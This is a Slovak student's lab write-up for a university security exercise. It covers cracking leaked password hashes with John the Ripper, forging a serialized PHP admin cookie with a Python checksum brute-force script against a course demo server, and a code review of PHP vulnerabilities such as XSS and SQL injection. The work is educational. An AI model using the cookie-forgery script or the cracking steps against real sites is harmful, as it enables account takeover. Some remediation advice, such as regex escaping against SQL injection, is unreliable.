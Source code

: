 # Cvičenie 4 BIT

### Fedor Viest
### Cvičenie: Po 10:00

---
---

## 4.1 Weak passwords and hashing
- Unikla vám databáza s heslami vašich používateľov.
- Identifikujte formát hashovania jednotlivých hesiel hashovaciu funkciu a prípadný salt a napíšte, či je dané hashovanie bezpečné. Ak nie, uvedte pre čo.
- Pokúste sa zlomit jednotlivé heslá pomocou OSINT a crackovacích nástrojov (john the ripper alebo hashcat).Heslá sa nachádzajú v slovníkoch s bežnými heslami.


Použil som nástroj hash-identifier na zistenie hashov hesiel

**320f90360b2e6242a1605c6a43466691** - MD5

Na cracknutie som použil túto stránku: https://md5.j4ck.com/13950 a heslo je **krokodil123**

**da39a3ee5e6b4b0d3255bfef95601890afd80709** - SHA-1

Na cracknutie som použil túto stránku: https://sha1.gromweb.com/?string= a heslo je empty string

![](image.png)


**$1$e89cca48$.lNUNFuE848.qRakPnepu/** - MD5 (Unix), kde salt je e89cca48

Na cracknutie hesla som použil nástroj john the ripper a heslo je **12345678**

![](image-1.png)


**$5$1111$Fu1TGVjZl6a7x2vnKn5HqzhlevDCQyGObcGPAziy61D** - SHA256 (Unix), salted, kde salt je 1111

Na cracknutie som použil nástroj john the ripper a heslo je **password1**

![](image-2.png)

**$5$1111$N21DKC75OGVQpl5dkeN0FUvsR3JoiyLP1XxSkDOAfM7** - SHA256 (Unix), salted, kde salt je 1111

Na cracknutie som použil nástroj john the ripper a heslo je **nbusr123**

![](image-3.png)


Ani jedno heslo nie je bezpečné, keďže som vedel cracknúť všetky. Všetky heslá sú zo slovníka a sú to vpodstate basic heslá. Lepšie by bolo použiť nejaké heslo s random znakmi a v náhodnom poradí. Čo sa týka algoritmov, SHA-1 sa už na heslá nepoužíva, z dôvodu, že pre rovnaký string vytvorí rovnaký hash, čiže útočníci sa vedia zamerať na hashe, ktorých je najviac (napr. v DB)

## 4.2 Broken authentication
- Na stránke “backend.php” nájdete prihlasovací formulár.
- Vaše meno a heslo a heslo je “bit” “bit”.
- Získajte prístup do administrátorskej časti stránky a nájdite “flag”.


Najprv som sa prihlásil a našiel cookie v browseri.

![](image-4.png)

Toto znamená, že cookie má v sebe 2 informácie: sess a sess_csum. Sess string som dal do base64 dekódera a vyhodilo mi to nasledovný output:

```php
O:8:"stdClass":4:{
    s:2:"id";i:13;
    s:5:"login";s:3:"bit";
    s:8:"password";s:3:"bit";
    s:8:"is_admin";b:0;
}
```

Tento output je vlastne serializovaný cookie, tak som v dátach zmenil polia **id** na 1, **login** na jozko, **password** na kreslo a **is_admin** na 1. Dáta som následne naspäť enkódoval a vyšiel mi tento base64 string:

```
Tzo4OiJzdGRDbGFzcyI6NDp7czoyOiJpZCI7aToxO3M6NToibG9naW4iO3M6NToiam96a28iO3M6ODoicGFzc3dvcmQiO3M6Njoia3Jlc2xvIjtzOjg6ImlzX2FkbWluIjtiOjE7fQ==
```

Po pár pokusoch o uhádnutie checksum (nájdenie nejakého vzorca) som si napísal script, ktorý brute force-uje všetky checksum 0-1000:

```py
import requests

url = "https://xviest.bit.demo-cert.sk/backend.php"

login_data = {
    "action": "login",
    "login": "bit",
    "password": "bit"
}

with requests.Session() as session:
    response = session.post(url, data=login_data)
    cookie = session.cookies.get_dict()

results = []

for i in range(1000):
    cookie["sess"] = "Tzo4OiJzdGRDbGFzcyI6NDp7czoyOiJpZCI7aToxO3M6NToibG9naW4iO3M6NToiam96a28iO3M6ODoicGFzc3dvcmQiO3M6Njoia3Jlc2xvIjtzOjg6ImlzX2FkbWluIjtiOjE7fQ=="
    cookie["sess_csum"] = str(i)
    response = requests.get(url, cookies=cookie)
    curr_cookie = "checksum {}: {}".format(i, response.content)

    print(curr_cookie)

    results.append(curr_cookie)

print(results)
```

S týmto postupom som našiel správnu hodnotu checksum, ktorá je **103**

![](image-5.png)


Keď som nahradil cookie údaje, tak sa mi zobrazil "flag": **krtko**


![](image-7.png)

![](image-6.png)

## 4.4 More code review

- Na adrese https://bit.demo-cert.sk/derave2.phps nájdete časť zdrojového kódu webovej aplikácie napísanej v jazyku PHP.
- Nájdite v nej čo najviac zraniteľností a logický chýb. (aspon 3)
- Zamerajte sa na typy zranitelností, ktoré ste neobjavili v úlohe 3.4
- Okomentujte ich a vyskúšajte ich pomenovať pomocou CWE identifikátorov.
- Bonus: Navrhnite odporúčania, ako problému odstrániť, prípadne opravte kód

1. Zraniteľnosť XSS **CWE identifikátor: CWE-79**

```php
// greet user after login
	echo "<h1>Welcome back {$_REQUEST['login']}</h1>";
```

Hodnota ```$_REQUEST['login']``` sa priamo vkladá do html, čím vie útočník vykonať javascript kód.

2. Zraniteľnosť na sql injection **CWE identifikátor: CWE-89**

```php
$user = $db->getRow("SELECT * FROM users WHERE login='".addslashes($login)."' AND password='".addslashes($password)"'");
```

Je pokus o escapovanie vstupu, ale stale sa da prelomit, cize strale to nie je vhodna sanitizacia vstupu.

**Odporúčanie**

Escape characterov, napríklad použitím regexu a obmedzením dĺžky vstupu 


3. Zraniteľnosť Race Condition - **CWE identifikátor: CWE-367**

```php
$message_id = $db->getValue("SELECT MAX(id) FROM messages");

	// check, if user has external avatar
	$url = "https://www.gravatar.com/avatar/".md5(trim($user['login']));
	$avatar_data = file_get_contents($url);
	file_put_contents("avatars/".$user['login'].".jpg");

	// save message
	$db->query("INSERT INTO messages VALUES(".($message_id + 1).",'$title', '$message', '$author')");
```

Najprv sa načíta message_id  do premennej, ale v prípade, že by prišli 2 requesty naraz, tak sa môže stať, že sa pripadí 2 správam to isté posledné id, takže pri zápise do DB by sa jedna zo správ premezala.

**Odporúčanie**

Zaobaliť call do jednej tranzakcie, čiže sa najprv získa id, potom sa spraví zásah do DB a potom sa môže získať ďalšie id.

4. Zraniteľnosť stored XSS **CWE identifikátor: CWE-79**

```php
foreach ($messages as $message) {
	echo <<<EOT
<h1>{$message['title']}</h1>
<h2>{$message['author']}</h2>
<div>{$message['message']}</div>
EOT;
}
```

V message sa môže nachádzať nebezpečný JS kód, ktroý sa spustí pri tomto HTML

**Odporúčanie**

Sanitizovať kód napríklad použitím funkcie htmlspecialchars()

5. Ukladanie citlivých údajov do cookie **CWE identifikátor: CWE-311, CWE-315**

```php
$user = $db->getRow("SELECT * FROM users WHERE login='".addslashes($login)."' AND password='".addslashes($password)"'");
	setcookie('user',base64_encode($user));
```

Z DB sa vytiahnu citlivé údaje o používateľovi, ktoré sa následne vložia do cookie v base64 encodingu.

**Odporúčanie**

Nevkladať citlivé údaje do cookie a neukladať ich na používateľov stroj. Radšej vytvoriť používateľovi session pri logine, alebo používať tokeny.

6. Ukadanie dát do premenných z cookie, ktorá mohla byť modifikovaná **CWE identifikátor: CWE-565**

```php
$user = @base64_decode($_COOKIE['user']);
```

Vytvára sa user z cookie, ale medzičasom táto cookie mohla byť modifikovaná

**Odporúčanie**

Použiť tokeny namiesto cookie

7. Data leak z databázy **CWE identifikátor: CWE-209**

```php
$user = $db->getRow("SELECT * FROM users WHERE login='".addslashes($login)."' AND password='".addslashes($password)"'");
	setcookie('user',base64_encode($user));
```

V prípade, že v query vznikne error, error message s údajmi o DB sa uloží do cookie

**Odporúčanie**

Pridať handler, že v prípade, že DB vráti error, tak sa cookie nevytvorí
